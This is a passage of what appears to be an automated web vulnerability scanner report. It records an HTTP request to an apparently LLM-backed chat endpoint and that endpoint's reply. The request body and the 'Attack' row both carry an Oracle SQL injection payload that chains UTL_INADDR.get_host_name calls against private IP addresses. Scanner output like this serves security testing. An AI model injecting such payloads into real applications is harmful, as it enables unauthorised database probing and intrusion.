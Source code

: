 
</code></pre>
				
				
			</details> <details class="request-body" open="open">
				<summary>Request body (314 bytes)</summary>
				
				<pre><code>{&quot;message&quot;:&quot;(SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.1&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.2&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.3&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.4&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.5&#39;) from dual)&quot;}</code></pre>
				
				
			</details></td>
	</tr>
	<tr>
		<th scope="row">Response</th>
		<td><details open="open">
				<summary>Status line and header section (166 bytes)</summary>
				
				<pre><code>HTTP/1.1 200 OK
Server: Werkzeug/3.0.4 Python/3.12.8
Date: Sun, 15 Dec 2024 15:58:32 GMT
Content-Type: application/json
Content-Length: 815
Connection: close

</code></pre>
				
				
			</details> <details class="response-body" open="open">
				<summary>Response body (815 bytes)</summary>
				
				<pre><code>{
  &quot;message&quot;: &quot;It looks like the provided JSON data is empty, represented by an empty array `[]`. \n\nTo answer your question about host names, it seems to be related to retrieving hostnames from IP addresses using Oracle&#39;s UTL_INADDR package.\n\nSince there are no relevant fields in the provided JSON data, I&#39;ll assume you want me to provide a general explanation of how this works. The UTL_INADDR package is used to perform network-related functions, including converting between IP addresses and host names.\n\nHowever, since your question involves selecting host names from IP addresses, it appears to be unrelated to the provided JSON data structure. If you&#39;d like to know more about using the UTL_INADDR package or have a specific question related to networking, feel free to ask!&quot;,
  &quot;status&quot;: &quot;success&quot;
}
</code></pre>
				
				
			</details></td>
	</tr>
	<tr>
		<th scope="row">Parameter</th>
		<td><pre><code>message</code></pre></td>
	</tr>
	<tr>
		<th scope="row">Attack</th>
		<td><pre><code>field: [message], value [(SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.1&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.2&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.3&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.4&#39;) from dual union SELECT  UTL_INADDR.get_host_name(&#39;10.0.0.5&#39;) from dual)]</code></pre></td>
	</tr>
	